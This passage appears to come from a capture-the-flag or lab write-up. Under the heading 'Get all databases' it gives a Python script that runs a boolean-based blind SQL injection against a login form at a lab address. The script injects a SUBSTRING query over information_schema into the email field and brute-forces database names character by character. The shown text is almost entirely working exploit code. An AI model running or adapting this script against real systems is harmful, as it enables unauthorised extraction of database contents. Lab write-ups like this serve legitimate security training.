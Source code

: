 ![](/img2/Pasted%20image%2020250514115352.png)

- Get all databases

```python
#!/usr/bin/env python3

import requests
import signal
import sys
import string
import time
from pwn import *


def def_handler(sig,frame):
	print("\n\n[!] Exiting...\n")
	sys.exit(1)


signal.signal(signal.SIGINT,def_handler)


url = "http://10.10.11.130/login"
characters = string.ascii_lowercase + "_,-" + string.digits



def SQLI():
	p1=log.progress("Brute Force")
	p1.status("Starting Attack")

	time.sleep(2)

	p2=log.progress("Data")
	info=""


	for position in range(1,1000):
		for character in characters:
			data = {
  			'email' : "test'or SUBSTRING((SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata), "+str(position)+", 1) = '"+character+"'-- -",
  			'password' : 'test'}
			r=requests.post(url,data=data)
			if "Login Success" in r.text:
				info+=character
				p2.status(info)
```